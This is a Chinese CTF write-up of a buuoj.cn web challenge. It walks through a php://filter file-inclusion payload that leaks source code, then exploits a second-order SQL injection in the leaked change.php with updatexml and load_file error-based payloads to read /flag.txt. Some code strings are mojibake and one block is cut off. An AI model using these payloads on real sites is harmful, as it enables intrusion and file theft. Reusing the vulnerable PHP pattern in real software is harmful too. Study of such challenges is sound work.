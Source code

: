 刚比赛完的一段时间期末考试云集，没有时间复现题目。趁着假期，争取多复现几道题。
#### 复现平台
buuoj.cn
#### 解题过程
首先进入题目页面
![index](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/index.png)

看起来没有什么特别的，就是一个可以提交信息的页面。查看响应报文也没有什么提示，但是在网页注释里有东西。

```html
<!--?file=?-->
```

这里可能有一个文件包含，尝试payload
```txt
http://xxx.xxx/index.php?file=php://filter/convert.base64-encode/resource=index.php
```
结果得到了当前页面经过加密后的源码
![源码](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/base64.png)

>有关伪协议的内容，可以大致参考下这篇文章：https://www.cnblogs.com/dubhe-/p/9997842.html

```php
<?php
ini_set('open_basedir', '/var/www/html/');

// $file = $_GET["file"];
$file = (isset($_GET['file']) ? $_GET['file'] : null);
if (isset($file)){
    if (preg_match("/phar|zip|bzip2|zlib|data|input|%00/i",$file)) {
        echo('no way!');
        exit;
    }
    @include($file);
}
?>
//HTML页面的代码省略，保留之前说的注释
<!--?file=?-->
```
用同样的方法，根据表单中暴露的位置，获取confirm.php,change.php,search.php等页面的内容。
```php
<?php
#change.php
require_once "config.php";

if(!empty($_POST["user_name"]) && !empty($_POST["address"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $address = addslashes($_POST["address"]);
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "è®¢åä


```

```php
<?php
#search.php
require_once "config.php"; 

if(!empty($_POST["user_name"]) && !empty($_POST["phone"]))
{
    $msg = '';
    $pattern = '/select|insert|update|delete|and|or|join|like|regexp|where|union|into|load_file|outfile/i';
    $user_name = $_POST["user_name"];
    $phone = $_POST["phone"];
    if (preg_match($pattern,$user_name) || preg_match($pattern,$phone)){ 
        $msg = 'no sql inject!';
    }else{
        $sql = "select * from `user` where `user_name`='{$user_name}' and `phone`='{$phone}'";
        $fetch = $db->query($sql);
    }

    if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        if(!$row) {
            echo 'error';
            print_r($db->error);
            exit;
        }
        $msg = "<p>å§å:".$row['user_name']."</p><p>, çµè¯:".$row['phone']."</p><p>, å°å:".$row['address']."</p>";
    } else {
        $msg = "æªæ¾å°è®¢å!";
    }
}else {
    $msg = "ä¿¡æ¯ä¸å¨";
}
?>
#无用的HTML代码省略
```

分析代码可以知道，每个涉及查询的界面都过滤了很多东西来防止SQL注入，而且过滤的内容非常广泛，很难进行注入。

但是尽管username和phone过滤非常严格，而address却只是进行了简单的转义。进过分析便找到了可以利用的地方。这里提取了一些change.php中和address相关的部分。
```php
$address = addslashes($_POST["address"]);
if (isset($fetch) && $fetch->num_rows>0){
        $row = $fetch->fetch_assoc();
        $sql = "update `user` set `address`='".$address."', `old_address`='".$row['address']."' where `user_id`=".$row['user_id'];
        $result = $db->query($sql);
        if(!$result) {
            echo 'error';
            print_r($db->error);
            exit;
        }
```
可以看出，address会被转义，然后进行更新，也就是说单引号之类的无效了。但是，在地址被更新的同时，旧地址被存了下来。如果第一次修改地址的时候，构造一个含SQL语句特殊的payload，然后在第二次修改的时候随便更新一个正常的地址，那个之前没有触发SQL注入的payload就会被触发。

思路有了以后，接下来就是构造payload，下面将借助报错注入来构造payload。

#### payload构造
```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),1,20)),0x7e),1)#
```
>直接load_file不能显示全，这里分两次构造payload。

```txt
1' where user_id=updatexml(1,concat(0x7e,(select substr(load_file('/flag.txt'),20,50)),0x7e),1)#
```

结果如下
![半个flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/error.png)
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/flag.png)

#### payload使用

两个payload的使用方法为：

先在初始页面随便输数据，记住姓名电话
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/givemoney.png)

接着修改地址，地址修改为所构造的payload。修改之后再次修改，将地址设置为随便一个正常值，比如1，这样就能看到报错页面。
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/change.png)

如果想要使用新的payload，只需要删除订单在重复以上操作即可。
![余下flag](https://markdown-1255584210.cos.ap-chengdu.myqcloud.com/day1web1/delete.png)
